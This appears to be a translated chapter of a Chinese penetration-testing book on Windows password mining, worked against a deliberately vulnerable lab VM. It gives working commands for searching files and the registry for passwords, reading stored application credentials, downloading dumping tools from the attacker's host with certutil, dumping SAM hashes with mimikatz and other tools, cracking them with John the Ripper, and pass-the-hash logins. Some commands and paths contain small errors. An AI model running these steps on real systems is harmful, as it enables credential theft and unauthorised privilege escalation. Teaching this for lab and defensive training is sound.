





# 第七章：Windows 密码挖掘

一个通常未被探索的重要特权提升攻击向量是搜索目标系统上本地存储的凭证的过程。这个过程包括搜索特定的密码和密码哈希值，这些可以直接用于提升特权，而无需使用任何漏洞利用。

本章将重点讲解如何使用各种工具和技术在目标系统上搜索密码并导出密码哈希值的过程。

我们还将了解如何破解 Windows `NT LAN Manager`（**NTLM**）哈希值，并利用这些哈希值在目标系统上提升特权。

本章将涵盖以下主要内容：

+   什么是密码挖掘？

+   在文件中搜索密码

+   在 Windows 配置文件中搜索密码

+   搜索应用程序密码

+   导出 Windows 哈希值

+   破解 Windows 哈希值

# 技术要求

为了跟随本章中的演示，你需要确保熟悉 Windows CMD 命令。

你可以在此查看本章代码的演示：[`bit.ly/3ogOyCN`](https://bit.ly/3ogOyCN)

# 什么是密码挖掘？

**密码挖掘**是搜索并列举存储在目标系统的持久性或易失性内存中的加密或明文密码的过程。这个过程的主要目标是识别潜在有用的用户帐户和应用程序密码，然后可以利用这些信息扩展我们对目标系统的控制权限，并可能为我们提供提升的特权。

由于 Windows 配置和部署用例的性质，这个过程会因目标而异。因此，了解密码（包括加密密码和明文密码）在 Windows 系统中的存储方式和存储位置非常重要。

还需要理解的是，这个过程依赖于一系列漏洞，这些漏洞通常源于组织或个人的密码安全实践。差劲的密码安全实践是攻击者的主要目标，因为它们提供了一个直接的访问通道，无需进一步的系统利用或破坏。

由于各种平台和应用程序需要大量凭证，员工和个人倾向于将凭证以明文形式保存在他们的系统中，通常保存在 `.doc`、`.txt` 或 `.xlsx` 文件中以便于访问，并且更可能使用较弱的密码，这些密码通常与他们相关的事件、名字或日期相关。这对组织的安全构成了重大威胁，因此大多数组织都会强制执行密码安全政策，以解决这些问题。

密码安全策略用于建立用户账户密码的基本安全级别，并强制要求安全存储和使用更强的密码，这些密码应包含字母（大写和小写）、符号和数字，且建议最短长度为 8 位。然而，这也导致了密码重用现象的出现，员工和个人可能会将相同的密码用于多个账户，主要是因为他们需要使用的密码复杂。这使得攻击者可以通过破解一个密码访问多个账户。

另一个安全漏洞或风险涉及 Windows 用户账户密码及其存储方式。Windows 会加密并本地存储用户账户密码以及存储在内存中的密码。在攻击者获得初步访问后，用户账户的哈希值可以从内存中提取，并可以被破解，这取决于密码的长度和强度。我们将在本章后续部分探讨这种技术的优缺点。

从组织角度来看，Windows 还用于托管第三方的关键业务应用程序，这些应用程序自身也存在安全漏洞。大多数这些应用程序都实现了某种形式的访问控制，因此需要以用户名和密码组合的形式进行用户身份验证。这些应用程序也容易将凭据本地存储，以明文或加密格式保存。攻击者成功利用应用程序后，可以找到这些凭据，解密它们（如果密码较弱），并利用它们访问应用程序，从而扩大对系统或网络的控制范围。

在本章中，我们将使用在 *第二章* *设置我们的实验室* 中设置的 Metasploitable3 目标虚拟机。

Metasploitable3 是一台故意设置漏洞的虚拟机，运行在 `Windows Server 2008 R2` 上，并托管了大量应用程序，从 Web 应用到数据库。

这个强大的应用配置提供了一个很好的现实场景，可以用来实际演示我们将在本章中使用的工具和技术。

在我们开始之前，请确保你已经掌握了目标系统并能够通过命令行或 Meterpreter 会话进行访问。

本章中将使用的技术和工具包括利用 Windows 原生命令和特定的 Meterpreter 模块，帮助自动化密码挖掘和转储过程的各个方面。

# 在文件中搜索密码

该过程的第一步是搜索存储在本地的各种文件中的密码。这将帮助我们识别文本或配置文件中的任何用户或应用程序密码。可以通过使用 Windows 内置的实用程序来实现，这些工具可以帮助我们搜索具有特定扩展名的文件中的特定字符串。

我们将通过以下不同的程序开始这一过程：

+   第一步是搜索本地文件系统中的特定字符串。在本例中，我们要搜索的字符串是`password`。这将列出该字符串的所有出现位置、其值、对应的文件名及其位置。可以通过在 Windows 命令行中运行`findstr`工具来实现：

    `findstr /si password *.txt`

    该命令将执行区分大小写的搜索，查找所有子目录中的`password`字符串。

    注意

    `findstr`是一个用于在文件中搜索字符串的 Windows 工具，可以与各种正则表达式结合使用，以微调你的搜索。

    为了执行彻底的搜索，建议在 Windows 文件系统的根目录运行`findstr`工具。可以通过导航到`C:\\`目录并从那里开始搜索来实现。

    这将输出所有包含`password`字符串的`.txt`文件列表，如下所示的屏幕截图所示：

图 7.1 – findstr 结果

根据系统配置和已安装的应用程序数量，该命令将输出大量信息。因此，建议将结果输出到文件中进行深入分析，因为手动分析结果可能会非常繁琐。

+   我们还可以使用`findstr`工具在`*.xml`文件中搜索`password`字符串。可以通过运行以下命令来实现：

    `findstr /si password *.xml`

    如下所示，这将输出所有`.xml`文件中`password`字符串的出现位置列表。

    你还可以通过运行以下命令来微调搜索，限制结果仅显示包含字符串的文件：

    `findstr /si /m "password" *.xml *.ini *.txt`

    这将限制搜索输出，仅显示包含搜索查询中指定字符串的文件：

图 7.2 – findstr XML 结果

+   我们还可以对目标系统中所有文件和目录进行综合搜索，查找特定字符串。可以通过运行以下命令来实现：

    `findstr /spin "password" *.* -`

    该命令将输出所有文件，无论其格式或扩展名，只要文件中包含`password`字符串。

    根据目标的部署用例，你可能会收到很多匹配项，或者完全没有匹配项。我们将在下一节中详细介绍如何根据我们寻找的密码类型来微调搜索。

+   我们还可以通过在 Windows 上使用`dir`命令在文件中搜索各种字符串。可以通过运行以下命令来实现：

    `dir /s *pass* == *cred* == *vnc* == *.config*`

    如下图所示，该命令将输出指定字符串的所有出现及其相应的位置。这种扫描更加全面，并具有更高的返回有用和可操作结果的概率：

图 7.3 – 目录搜索结果

如前面的屏幕截图所示，搜索显示了包含搜索中指定字符串的文件的位置。在这种特定情况下，我们可以识别出`GlassFish`服务器的本地和域密码的位置。我们可以使用这些凭据控制该服务。

在接下来的章节中，我们将详细介绍如何搜索特定于应用程序的密码及其如何用于提升我们的权限。

现在我们知道如何在目标系统的文件中搜索有用的字符串，接下来我们将看看如何在 Windows 配置文件中搜索密码。

# 在 Windows 配置文件中搜索密码

Windows 可以自动化各种重复的任务，例如在多个系统上大规模部署或安装 Windows。其中一个示例是**无人值守 Windows 安装**实用程序，它自动化了 Windows 的大规模安装。此工具利用包含特定配置和用户账户凭据的配置文件，攻击者可以利用这些凭据提升权限。在本节中，我们将探讨如何搜索和识别在无人值守 Windows 安装过程中使用的配置文件。

需要注意的是，此技术将根据所使用的 Windows 版本以及是否使用了无人值守 Windows 安装工具而有所不同。鉴于无人值守 Windows 安装工具的典型用例，当它在特定于组织的环境中使用时，此方法将非常有用。但是，您可能会遇到使用无人值守 Windows 安装工具的个别系统。

在我们的案例中，我们的目标系统并未使用无人值守 Windows 安装工具进行设置和配置，因此以下技术将不直接适用。但是，这是密码挖掘过程中的一个至关重要的方面：

1.  第一步是搜索并识别剩余的无人值守 Windows 安装配置文件。配置文件的名称会根据已安装的 Windows 版本而异。该文件通常具有以下名称之一：

    - `Unattend.xml`

    - `Autounattend.xml`

    配置文件的位置也取决于已安装的 Windows 版本，并且通常可以在以下位置之一找到：

    C:\\Windows\Panther\Unattend\Unattended.xml

    C:\\Windows\Panther\Unattdended.xml

    如下终端输出所示，如果配置文件存在，它应该包含**管理员**密码的明文或以 Base64 编码的密码，经过解码后即可揭示明文密码：

    `<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">`

    **    <AutoLogon>**

    **     <Password>UGFzc3dvcmQxMjM=</Password>**

    **     <Enabled>true</Enabled>**

    **     <Username>Administrator</Username>**

    **    </AutoLogon>**

    **    <UserAccounts>**

    **     <LocalAccounts>**

    **      <LocalAccount wcm:action="add">**

    **       <Password>*SENSITIVE*DATA*DELETED*</Password>**

    **       <Group>administrators;users</Group>**

    **       <Name>Administrator</Name>**

    **      </LocalAccount>**

    **     </LocalAccounts>**

    **    </UserAccounts>**

    使用 Kali Linux 上的内置 base64 工具可以解密加密密码。可以通过运行以下命令来完成：

    `echo "<ENCRYPTED-PASSWORD>" | base64 -d`

1.  Windows 安装也可以通过名为 `Sysprep` 的 Windows 工具进行自动化。Sysprep 用于将 Windows 镜像部署到不同的系统，并且也可以与 Windows 无人值守安装工具配合使用，来为镜像的部署做好准备。

    同样，`Sysprep` 也利用包含定制内容和用户凭据的配置文件。如果这些文件没有被清理，它们可能会泄露有用的凭据信息。配置文件的名称会根据安装的 Windows 版本有所不同。该文件通常具有以下名称之一：

    - `Sysprep.inf`

    - `Sysprep.xml`

    配置文件的位置还取决于安装的 Windows 版本，通常可以在以下位置找到：

    C:\\sysprep.inf

    C:\\sysprep\sysprep.xml

    如下截图所示，如果配置文件存在，它应该包含明文的管理员密码：

    

    ](Images/B17389_07_004.jpg)

    图 7.4 – Sysprep.xml 密码

    如果这些配置文件存在，它们提供了一条直接的路径，可以在管理员用户获得提升的权限后进行系统身份验证。

1.  Windows 中另一个重要的部分是注册表。Windows 注册表是一个数据库，负责存储 Windows 系统及其他安装在系统中的应用程序的设置和配置。我们可以搜索注册表中的特定字符串来揭示用户凭据。这可以通过运行以下命令来完成：

    `reg query HKLM /f password /t REG_SZ /s`

    `reg query HKCU /f password /t REG_SZ /s`

    如下截图所示，这将输出所有匹配**密码**字符串的注册表项：

图 7.5 – Windows 注册表搜索

在这个特定案例中，我们没有发现任何有趣的内容。因此，我们将转向查找和枚举特定于应用程序的密码。

# 搜索应用程序密码

当应用程序存在漏洞和弱点时，它们成为攻击者的诱人目标。它们如何存储凭证可能导致系统完全被攻破或权限提升。

本节将重点介绍如何查找和枚举应用程序凭证。本节演示的技术将取决于你所处理的目标类型以及其部署使用场景。在我们的特定案例中，目标虚拟机被设置为服务器，并安装了各种应用程序。

在 *第三章*，*获取访问权限（利用）* 中，我们对目标进行了全面的 Nmap 扫描，并识别出多个应用程序，其中大多数是利用某种形式认证的 web 应用程序。这些是我们可以攻击的应用程序：

+   MySQL 服务器

+   phpMyAdmin

+   WordPress

让我们来学习如何查找和识别这些应用程序用来存储凭证的配置文件：

1.  该过程的第一步是识别正在使用的 web 托管堆栈。正如下面的截图所示，导航到文件系统根目录可以揭示已安装的托管堆栈是 `Windows Apache MySQL PHP`（**WAMP**）：

    图 7.6 – WAMP

    我们可以通过浏览 `wamp` 目录的内容来确定托管了哪些 web 应用程序。可以通过运行以下命令来实现：

    `cd wamp\www\`

    正如下面的截图所示，目录的内容显示 WordPress 已安装在服务器上：

    

    图 7.7 – WordPress 目录

    `WordPress` 是一个内容管理系统，需要一个数据库——在这个案例中是 `MySQL`——来存储数据和用户凭证。通过远程连接来连接数据库，数据库的访问凭证存储在 `wp-config.php` 文件中。我们可以通过进入 WordPress 安装目录，并在 Windows 命令行中运行以下命令来列出此文件的内容：

    `type wp-config.php`

    正如下面的截图所示，文件的内容揭示了我们可以用来登录的 MySQL 用户名和密码组合：

    

    图 7.8 – wp-config.php MySQL 凭证

1.  在这种情况下，我们可以获取 MySQL 服务器的根用户名和密码，并通过运行以下命令从 Kali 远程登录：

    `mysql -u root -p -h <TARGET-IP>`

    如以下截图所示，成功认证后，我们现在应当能够访问 MySQL 服务器的根权限，并查看和导出服务器上任何数据库的内容：

    

    ](Images/B17389_07_009.jpg)

    图 7.9 – MySQL 登录

1.  我们现在可以导出服务器上的数据库列表。可以通过在 MySQL 提示符下运行以下命令来完成：

    `show databases;`

    如以下截图所示，该命令将输出服务器上的数据库列表：

    

    图 7.10 – MySQL 数据库

1.  我们可以通过在 MySQL 提示符下运行以下命令来导出 WordPress 数据库的内容：

    `use wordpress;`

    这将显示 WordPress 数据库中的表格列表。我们可以通过运行以下命令导出 WordPress 安装的用户凭证：

    `select * from wp_users;`

    如以下截图所示，这将揭示 WordPress 用户的凭证：

    

    ](Images/B17389_07_011.jpg)

    图 7.11 – WordPress 凭证

    用户密码以 MD5 加密，可以解密以显示明文密码。

1.  此外，鉴于我们已拥有 MySQL 服务器的根权限，我们可以通过运行以下命令来更改管理员账户的密码：

    `update wp_users set user_pass = MD5('password123!') where ID = 1;`

    我们现在可以使用刚刚设置的密码登录 WordPress 管理后台，并应拥有对 WordPress 网站的管理员控制权限。

    到目前为止，我们已控制了 MySQL 服务器和 WordPress 网站。现在，让我们找到其他应用程序的凭证。

1.  服务器还在运行 phpMyAdmin。我们可以通过访问该文件的内容来访问 phpMyAdmin 控制面板，如下所示：

    `C:\wamp\apps\phpmyadmin3.4.10.1\config.inc.ini.php`

    如以下截图所示，这将揭示 phpMyAdmin 控制面板的访问凭证：

](Images/B17389_07_012.jpg)

图 7.12 – phpMyAdmin 凭证

我们现在应该已经拥有 phpMyAdmin 控制面板的根权限，并能够创建、修改和删除数据库内容。

现在我们已经控制了 MySQL 服务器和 WordPress 网站，我们可以开始导出 Windows 用户账户的哈希值，以提升我们的权限。

# 导出 Windows 哈希值

在本节中，我们将更详细地探讨 Windows 密码及其哈希方式。Windows 上的哈希导出过程可以通过各种技术和工具来完成，我们将在本节中探讨大部分技术。在开始使用任何工具或技术之前，我们需要简要了解 Windows 密码是如何存储的。

## SAM 数据库

**安全帐户管理器**（**SAM**）是一个负责管理 Windows 上用户帐户和密码的数据库。存储在 SAM 数据库中的所有密码都是经过哈希的。用户凭据的认证和验证由**本地安全机构**（**LSA**）协助。

SAM 数据库存储在 Windows 注册表中，可以从以下位置访问：

HKEY_LOCAL_MACHINE\SAM

现在我们知道了 Windows 用户凭据存储的位置，我们需要更仔细地查看`LanMan`（**LM**）和 NTLM 认证。

## LM 和 NTLM 哈希

LM 是由 IBM 开发的一种认证协议，并在 NT4.0 之前广泛应用于 Windows 操作系统。该协议用于加密用户密码，哈希过程可以分解为以下步骤：

1.  密码通过将其分成两个七字符的块来转换为哈希。

1.  所有字符都将转换为大写。

1.  每个块都使用 56 位 DES 密钥进行加密。

LM 通常被认为是一种弱协议，容易被破解，主要原因如下：

1.  56 位的 DES 密钥较弱，且相对容易破解。

1.  由于字符会被转换为大写，因此通过暴力破解或字典攻击，破解过程相对简单。

1.  使用 LM 的 Windows 版本对于用户帐户密码限制最多为 14 个字符。

现在我们了解了 LM 哈希的工作原理，我们可以看看 NTLM 哈希，它在安全性方面优于 LM。

NTLM 是一组在 Windows 中用于促进计算机之间认证的协议。认证过程涉及使用有效的用户名和密码来成功进行认证。

NTLM 认证操作基于客户端-服务器通信模型，并涉及握手过程，类似于 TCP 的三次握手。我们在上一章中探讨了 NTLM 认证过程，所以这里仅探讨 LM 和 NTLM 哈希的区别。

NTLM 操作基于挑战应答系统，哈希过程可以分解为以下步骤：

1.  当用户帐户创建时，它会使用 MD4 哈希算法进行加密，而原始密码则被丢弃。

1.  在认证过程中，用户名被发送到服务器。然后，服务器创建一个 16 字节的随机字符串并发送给客户端。这就是所谓的挑战。

1.  客户端使用**数据加密标准**（**DES**）算法加密该字符串与密码哈希，然后将其发送回服务器。这就是所谓的应答。

1.  服务器接着将哈希后的字符串（应答）与原始数据进行比对。如果匹配，则完成认证。

下表突出了 LM 和 NTLM 之间的主要区别，以及每种协议如何处理加密：

现在我们已经了解了 LM 和 NTLM 哈希的工作原理，接下来可以开始探索在目标系统上转储哈希的过程。

### 使用 PwDump7

我们将使用的第一个工具是`PwDump7.exe`。它是一个 Windows 二进制程序，用于提取 SAM 数据库并转储哈希值。它需要在目标系统上本地运行。您可以通过以下链接下载该二进制文件：[`www.tarasco.org/security/pwdump_7/`](https://www.tarasco.org/security/pwdump_7/)。

下载二进制文件后，我们需要将其传输到目标系统。这可以通过 meterpreter 自动完成，方法是在 meterpreter shell 中运行以下命令：

上传 ~/Downloads/pwdump7/PwDump7.exe

或者，如果您使用的是标准命令行，我们需要在 Kali 虚拟机上设置一个 Web 服务器。这个服务器将用于托管二进制文件，以便我们可以在目标系统上下载它。可以按照这里概述的步骤来完成：

要在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以使用`SimpleHTTPServer` Python 模块来提供二进制文件。这可以通过在存储`PwDump7.exe`二进制文件的目录中运行以下命令来完成：

sudo python -m SimpleHTTPServer 80

要在目标系统上下载`PwDump7.exe`二进制文件，我们可以使用`certutil`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到当前用户的**桌面**目录。

现在我们可以使用`certutil`工具将二进制文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

certutil -urlcache -f http://<KALI-VM-IP>/PwDump7.exe PwDump7.exe

如下图所示，如果传输成功，二进制文件应该已经下载并保存为我们指定的名称：

图 7.13 – certutil 成功传输

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 PwDdump 工具来转储哈希值。这可以通过在目标系统上运行以下命令来完成：

reg save hklm\sam c:\sam

如果操作成功，您应该会收到一条类似于下图所示的消息：

图 7.14 – 转储 SAM

我们现在可以执行二进制文件，通过运行以下命令来转储哈希值：

.\PwDump7.exe -s <SAMFILE> <SYSTEM-FILE>

这将从 SAM 数据库中转储 Windows 哈希值，我们将在下一节中破解这些哈希值。

对于我们的目标系统，这种技术将无法工作。然而，它是一个有用的工具，适用于大多数 Windows 版本。

### 使用 SamDump2

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 SamDump2 工具来转储哈希值。这可以通过运行以下命令来完成：

reg save hklm\sam c:\sam

如果操作成功，您应该会收到类似以下截图中突出显示的信息：

](Images/B17389_07_015.jpg)

图 7.15 – 提取 SAM

我们现在可以将 SAM 文件从文件系统根目录下载到我们的 Kali 虚拟机。这可以通过 meterpreter 自动完成，运行以下命令：

download sam

如下截图所示，SAM 文件应该已下载到我们 Kali 主目录中：

](Images/B17389_07_016.jpg)

图 7.16 – 下载 SAM 文件

我们现在可以在 Kali Linux 上使用 SamDump2 工具从文件中提取哈希值。可以通过在 Kali 上运行以下命令来完成此操作：

samdump2 system sam

这将从 SAM 文件中提取哈希值，我们现在可以破解这些哈希以获取明文密码。

此过程也可以通过使用 `hashdump` meterpreter 命令来自动化，命令如下：

hashdump

如果成功，输出应该会显示系统上所有用户帐户的哈希值，如以下截图所示：

](Images/B17389_07_017.jpg)

图 7.17 – Hashdump

在这种情况下，`hashdump` 命令会显示系统上所有用户帐户的哈希值。我们可以将这些哈希保存到名为 `hashes.txt` 的文件中，保存在我们的 Kali 虚拟机上。接下来，我们将讨论如何使用这些哈希值。

### 使用 Windows 凭据编辑器

另一个我们可以使用的强大工具是 **Windows 凭据编辑器**，也叫做 `WCE`。WCE 列出了登录会话及其对应的 NTLM 哈希。该二进制文件预装在 Kali 中，需要在目标系统上本地运行。

我们可以通过运行以下命令，使用 meterpreter 将二进制文件上传到目标系统：

upload /usr/share/windows-resources/wce/wce64.exe

如果您使用的是标准命令行 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

将二进制文件传输到目标系统后，我们可以通过运行以下命令执行该二进制文件：

.\wce64.exe

这将输出一份登录会话及其对应哈希的列表，如以下截图所示：

](Images/B17389_07_018.jpg)

图 7.18 – WCE 哈希

在这种情况下，我们只能提取当前登录用户的哈希值。

我们还可以使用 `wce.exe` 二进制文件来提取密码哈希及其对应的明文。这可以通过运行以下命令来完成：

.\wce64.exe -w

在这种情况下，我们获取了 vagrant 用户和 SSH 用户的哈希值和明文密码，如以下截图所示：

](Images/B17389_07_019.jpg)

图 7.19 – WCE 明文密码

我们还可以使用另一个很棒的 Metasploit 后渗透模块，从系统中提取密码哈希和访问令牌。将 Meterpreter 会话放到后台后，可以加载以下模块来执行此操作：

use post/windows/gather/credential/credential_collector

现在，我们需要配置该模块并更改相关的模块选项。在这种情况下，唯一需要配置的选项是`SESSION`选项。我们可以通过运行以下命令来设置`SESSION`选项：

set SESSION <SESSION-ID>

以下截图概述了需要配置的模块选项，以便运行该模块：

图 7.20 – 模块选项

现在，我们可以通过在 Metasploit 控制台中运行以下命令来启动该模块：

run

如果成功，模块应该会输出一个包含密码哈希和访问令牌的列表，可以用来提升我们的权限，如下图所示：

图 7.21 – 凭证编辑器

在这种情况下，我们从目标系统中获取了所有用户帐户的哈希值。接下来，我们将查看如何利用这些哈希值。

### 使用 mimikatz

我们还可以使用内置的 Mimikatz Meterpreter 模块（也称为 kiwi）。可以通过运行以下命令将其加载到 Meterpreter 中：

load kiwi

模块加载后，我们可以通过在 Meterpreter 会话中运行以下命令来转储 SAM 数据库的内容：

lsa_dump_sam

这将输出所有用户帐户及其相应的 NTLM 哈希值，如下图所示：

图 7.22 – Mimikatz 哈希

注意

Mimikatz 是一个开源应用程序，允许攻击者查看和保存 Windows 身份验证凭证，用于特权升级。

或者，你可以使用 Kali Linux 中预打包的 Mimikatz 可执行文件。该二进制文件需要在目标系统上本地运行，并可以通过 Meterpreter 自动上传到目标系统，方法是运行以下命令：

upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

如果你使用的是标准命令 shell，可以使用`certutil`工具将二进制文件传输到目标系统。

注意

Mimikatz 需要提升的 shell 才能转储哈希值。

在将二进制文件传输到目标系统后，我们可以通过运行以下命令来执行该二进制文件：

.\mimikatz.exe

执行二进制文件后，我们需要提升权限才能访问 SAM 数据库。可以通过在 Mimikatz 提示符中运行以下命令来实现：

token::elevate

现在，我们可以通过在 Mimikatz 提示符中运行以下命令来转储 SAM 数据库的内容：

lsadump_sam

如果成功，你应该能从 SAM 数据库中检索到提取的哈希值，如下图所示：

图 7.23 – Mimikatz 哈希转储

现在你应该已经可以访问各种账户的密码哈希值了。然而，我们感兴趣的账户是管理员账户，因为它将为我们提供一个直接的途径，将我们的权限提升到最高级别。

在下一部分，我们将开始破解密码哈希的过程，并学习如何利用这些密码进行身份验证。

# 破解 Windows 哈希值

我们现在可以使用前一部分中提取的密码哈希进行合法身份验证。然而，在此之前，我们仍然需要破解这些哈希值以获得明文密码。

本节将分为两个主要子部分。第一部分将介绍使用 John the Ripper 破解 Windows 密码哈希的过程，而第二部分将涵盖身份验证的过程。

在我们开始提取和破解密码哈希之前，我们需要了解典型 Windows 哈希的结构。

如下图所示，哈希 ID 被分为四个部分：

图 7.24 – 哈希结构

这四个部分可以进一步分类如下：

+   第一部分是用户名。

+   第二部分是唯一的 RID。

+   第三部分是 LM 哈希值。

+   第四部分是 NTLM 哈希值。

现在我们了解了 Windows 哈希的组成部分，我们可以开始哈希破解过程。

## 使用 John the Ripper 破解 Windows 哈希值

John the Ripper 是一款开源的密码安全、审计和恢复工具，支持大量的哈希值和加密方式。在我们的案例中，我们将使用 John the Ripper 破解 Windows NTLM 哈希值。

John the Ripper 随 Kali Linux 一起预安装，第一步是将我们在哈希提取部分中提取的密码哈希保存到 Kali Linux 中的一个文件中，最好是 `.txt` 文件。

在我们的案例中，我们将文件命名为 `hashes.txt` 并将文件保存在 Kali Linux 的 `Desktop` 目录中。

文件内容应与以下类似：

图 7.25 – NTLM 哈希值

注意

NTLM 哈希值不应出现在同一行，哈希文件中不应包含其他文本或字符串。

我们现在可以通过在 Kali Linux 中运行以下命令来开始使用 John the Ripper 破解哈希值：

sudo john –format=NT hashes.txt

这将启动哈希破解过程；任何破解成功的哈希值将与其对应的密码一起输出。需要注意的是，破解过程可能根据密码的长度和强度不同，可能需要几分钟到几个小时甚至几天的时间。

你可能还需要限制哈希文件中的哈希数量，只保留最重要的哈希，甚至是管理员账户的哈希。

在这个特定的案例中，John 破解了**管理员**和`vagrant`用户账户的哈希值，如以下截图所示：

图 7.26 – 破解的哈希值

现在，我们已经获得了管理员账户的明文密码，可以开始身份验证过程。

## 身份验证

我们可以利用已导出的哈希和明文密码进行身份验证，从而获得特权访问。这个过程可以通过各种技术来实现。在本小节中，我们将讨论其中的一些方法。

### 使用传递哈希技术

我们将使用的第一个技术被称为*传递哈希*。它涉及使用已导出的哈希进行目标身份验证——在这个例子中是管理员哈希。这个攻击可以通过 Metasploit 模块自动化，该模块利用了 Windows 上的`PsExec`命令行工具。该工具允许你在远程系统上执行程序。

我们可以在将 meterpreter 会话置于后台后，在 Metasploit 中加载该模块，方法是运行以下命令：

使用 exploit/windows/smb/psexec

加载模块后，我们需要配置模块选项。在这种情况下，我们需要配置`RHOSTS`选项，并配置**服务器消息块**（**SMB**）凭据。我们将`SMBUser`设置为`Administrator`，并将`SMBPass`选项设置为管理员哈希，如下截图所示：

图 7.27 – psexec 模块选项

配置好模块选项后，我们可以通过在 Metasploit 控制台中运行以下命令来启动模块：

运行

如下截图所示，如果模块成功运行，我们应该会收到一个具有提升权限的 meterpreter 会话：

图 7.28 – 传递哈希成功

这样，我们就成功地利用密码哈希提升了我们的权限。

### 使用 Remmina

在我们对目标进行初步的 Nmap 扫描时，发现**远程桌面协议**（**RDP**）服务运行在默认配置端口，也就是`3389`。我们可以利用破解出的管理员账户明文密码来进行身份验证，并与服务器建立具有提升权限的远程桌面连接。

这可以通过使用像 Remmina 这样的 RDP 客户端来实现，Remmina 是 Kali Linux 中预装的工具。

你可以通过应用启动菜单或通过终端启动 Remmina。完成后，你需要输入目标的 IP 地址，如下截图所示：

图 7.29 – Remmina IP 配置

在指定目标 IP 后，系统会提示你提供凭证进行身份验证。在这种情况下，我们将使用管理员凭证，如下图所示：

图 7.30 – Remmina 凭据

如果身份验证成功，我们应该会收到一个远程桌面会话，并且应该以管理员账户登录，并拥有提升的权限，如下图所示：

图 7.31 – Remmina RDP 会话

通过这些操作，我们已经成功地利用转储和破解的密码哈希值提升了权限。

现在，你应该已经熟悉了在文件中搜索和识别密码的过程，以及为了提升权限而转储和破解 Windows NTLM 哈希值的过程。

# 总结

在本章中，我们学习了如何在 Windows 配置文件中查找和识别密码，接着介绍了可以用于搜索特定字符串的各种工具。我们还讨论了如何在配置文件中查找和识别应用程序密码，以及如何使用这些凭证来扩展我们的控制范围。最后，我们深入探讨了如何转储 Windows NTLM 哈希值以及如何破解它们以提升权限。

在下一章中，我们将探讨通过利用各种 Windows 服务来提升权限的过程。
